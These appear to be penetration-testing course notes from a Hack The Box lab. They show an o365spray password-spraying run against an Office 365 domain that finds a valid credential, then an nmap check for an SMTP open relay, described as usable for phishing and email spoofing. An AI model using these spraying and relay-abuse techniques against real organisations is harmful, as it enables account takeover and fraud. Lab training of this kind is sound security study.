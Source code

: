 **O365 Spray - Password Spraying**
```shell-session
datboyblu3@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > spray          :  True
   > password       :  March2022!
   > userfile       :  usersfound.txt
   > count          :  1 passwords/spray
   > lockout        :  1.0 minutes
   > spray_module   :  oauth2
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
   > start          :  2022-04-14 12:26:31

>----------------------------------------<

[2022-04-14 12:26:31,757] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-14 12:26:32,201] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-14 12:26:32,202] INFO : Running password spray against 2 users.
[2022-04-14 12:26:32,202] INFO : Password spraying the following passwords: ['March2022!']
[2022-04-14 12:26:33,025] INFO : [VALID] lewen@msplaintext.xyz:March2022!
[2022-04-14 12:26:33,048] INFO : 

[ * ] Writing valid credentials to: '/opt/o365spray/spray/spray_valid_credentials.2204141226.txt'
[ * ] All sprayed credentials can be found at: '/opt/o365spray/spray/spray_tested_credentials.2204141226.txt'

[2022-04-14 12:26:33,048] INFO : Valid Credentials: 1
```

### SMTP Open Relay

Messaging servers that are accidentally or intentionally configured as open relays allow mail from any source to be transparently re-routed through the open relay server. This behavior masks the source of the messages and makes it look like the mail originated from the open relay server.

We can abuse this for phishing by sending emails as non-existing users or spoofing someone else's email.

Use the `nmap smtp-open-relay` NSE script to identify any open SMTP ports

```shell-session
datboyblu3@htb[/htb]# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 23:59 EDT
Nmap scan report for 10.10.11.213
Host is up (0.28s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)
```
